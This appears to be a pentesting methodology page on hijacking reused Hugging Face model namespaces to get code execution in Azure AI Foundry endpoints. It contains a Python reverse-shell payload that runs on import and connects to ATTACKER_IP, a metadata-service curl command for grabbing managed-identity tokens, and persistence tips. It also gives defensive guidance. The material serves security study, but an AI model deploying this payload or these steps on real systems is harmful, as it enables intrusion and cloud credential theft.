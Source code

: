 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

## Scenario

- Azure AI Foundry Model Catalog includes many Hugging Face (HF) models for one-click deployment.
- HF model identifiers are Author/ModelName. If an HF author/org is deleted, anyone can re-register that author and publish a model with the same ModelName at the legacy path.
- Pipelines and catalogs that pull by name only (no commit pinning/integrity) will resolve to attacker-controlled repos. When Azure deploys the model, loader code can execute in the endpoint environment, granting RCE with that endpoint’s permissions.

Common HF takeover cases:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identifying Reusable Namespaces (HF)

```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```

## End-to-end Attack Flow against Azure AI Foundry

1) In the Model Catalog, find HF models whose original authors were deleted or transferred (old author removed) on HF.
2) Re-register the abandoned author on HF and recreate the ModelName.
3) Publish a malicious repo with loader code that executes on import or requires trust_remote_code=True.
4) Deploy the legacy Author/ModelName from Azure AI Foundry. The platform pulls the attacker repo; loader executes inside the Azure endpoint container/VM, yielding RCE with endpoint permissions.

Example payload fragment executed on import (for demonstration only):

```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
    s = socket.socket(); s.connect((host, port))
    for fd in (0,1,2):
        try:
            os.dup2(s.fileno(), fd)
        except Exception:
            pass
    subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
    threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```

Notes
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Access usually matches the endpoint’s managed identity/service principal permissions. Treat it as an initial access foothold for data access and lateral movement within Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerate environment variables and MSI endpoints for tokens:

```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

- Check mounted storage, model artifacts, and reachable Azure services with the acquired token.
- Consider persistence by leaving poisoned model artifacts if the platform re-pulls from HF.

## Defensive Guidance for Azure AI Foundry Users

- Pin models by commit when loading from HF:

```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```

- Mirror vetted HF models to a trusted internal registry and deploy from there.
- Continuously scan codebases and defaults/docstrings/notebooks for hard-coded Author/ModelName that are deleted/transferred; update or pin.
- Validate author existence and model provenance prior to deployment.

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.

```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```

## Cross-References

- See broader methodology and supply-chain notes:

[[../../pentesting-cloud-methodology.md]]

## References

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

